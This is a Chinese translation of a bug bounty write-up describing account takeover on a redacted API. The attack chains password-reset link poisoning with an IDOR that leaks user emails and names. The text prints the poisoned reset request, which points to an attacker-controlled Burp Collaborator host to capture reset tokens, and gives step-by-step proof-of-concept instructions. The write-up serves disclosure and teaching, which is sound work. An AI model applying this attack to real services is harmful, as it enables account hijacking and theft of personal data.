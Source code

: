 # 链接密码重置链接中毒，IDOR 和信息泄漏，以实现在 api.redacted.com 的帐户接管

> 原文：<https://infosecwriteups.com/chaining-password-reset-link-poisoning-idor-account-information-leakage-to-achieve-account-bb5e0e400745?source=collection_archive---------0----------------------->

![](img/f3aad3e112e40dc62e6da7024c507021.png)

在评估目标 web 应用程序的有影响的漏洞时，一个有用的检查可能是查看 [waybackmachine](https://archive.org/web/) 以发现随着时间的推移已经存在于目标上的 URL。这些可能会暴露关键的功能，然后可以对其进行错误测试。我追踪的一个虫子赏金目标碰巧就是这种情况。

用户可以通过以下端点重置其帐户密码。`**https://api.redacted.com/v3/users/resetToken?email=foobar@gmail.com**`

在做侦察的时候，我喜欢使用 [waybackurls](https://github.com/tomnomnom/waybackurls) 自动完成查找 URL 的过程。搜索该工具的结果发现了密码重置端点的另一个版本，其中包含一个有趣的参数(resetPasswordUrlPrefix)。

`**https://api.redacted.com/v3/users/resetToken?email=foobar@gmail.com&resetPasswordUrlPrefix=https%3A%2F%web.archive.org%2Fsave%2F_embed%2Fhttps%3A%2F%2Faccounts.redacted.com%2Fmember%2Freset-password**`

还值得注意的是，在/v3/users/ endpoint 上没有访问控制，允许任何用户通过简单地更改请求中的电子邮件地址或句柄参数来检索属于另一个用户的信息。(这两个参数可以互换)。

![](img/d2e486d0823feaef3a9a978c435a4c35.png)

API 端点泄漏用户句柄、电子邮件、ID、名字、姓氏

因此，在试图弄清楚 resetPasswordUrlPrefix 参数的用法时，我想到了一个主意。如果我在重置帐户密码时从 burpcollaborator 提供了一个有效负载会怎么样？

```
[**https://api.redacted.com/v3/users/resetToken?email=foobar@gmail.com&resetPasswordUrlPrefix=https://lvk9gh5vmzmaack1xdb3ekexyo4gs5.burpcollaborator.net/save/_embed/https://accounts.redacted.com/member/reset-password**](https://api.redacted.com/v3/users/resetToken?email=foobar@gmail.com&resetPasswordUrlPrefix=https://lvk9gh5vmzmaack1xdb3ekexyo4gs5.burpcollaborator.net/save/_embed/https://accounts.redacted.com/member/reset-password)
```

这导致我的 burpcollaborator 客户端中的一些 DNS 和 HTTP 交互，表明密码重置令牌在 referer 标头中泄漏。这些信息足以证明概念，所以是时候写一份报告了。

![](img/1df77cb4cf0cda70578417ec39e60492.png)

引用标头中泄漏了密码重置令牌

我在下面的步骤中演示了我的概念证明；

1.  为了测试的目的，在程序上注册两个帐户，并登录到一个帐户。

2.向受影响的端点发出请求，将电子邮件地址或句柄替换为属于您的受害者帐户的地址或句柄。

```
[**https://api.redacted.com/v3/users/resetToken?email=foobar@gmail.com&resetPasswordUrlPrefix=https://lvk9gh5vmzmaack1xdb3ekexyo4gs5.burpcollaborator.net/save/_embed/https://accounts.redacted.com/member/reset-password**](https://api.redacted.com/v3/users/resetToken?email=foobar@gmail.com&resetPasswordUrlPrefix=https://lvk9gh5vmzmaack1xdb3ekexyo4gs5.burpcollaborator.net/save/_embed/https://accounts.redacted.com/member/reset-password)
```

3.受害者帐户将收到一个以攻击者域为前缀的密码重置链接。

![](img/515988d13415f30bc34245ede681f198.png)

受害者帐户收到嵌入攻击者控制的域的中毒链接

4.一旦受害者点击中毒链接，攻击者将收到对他/她的域的请求，受害者的密码重置令牌在 referer 标头中可见。

5.攻击者在 web 浏览器中加载密码重置链接，并为受害者帐户设置新密码，从而完成帐户接管。

这是一个重复的问题。(意思是其他人已经向程序报告了)但是一个特别酷的 bug 仍然存在。

如果你喜欢阅读这篇文章，请留下掌声，并确保查看我在寻找 bug 过程中发现的问题的其他文章。

你可以在推特[https://twitter.com/mase289](https://twitter.com/mase289)上关注我，我在那里分享 bugbounty 的相关内容。下次再见，狩猎愉快！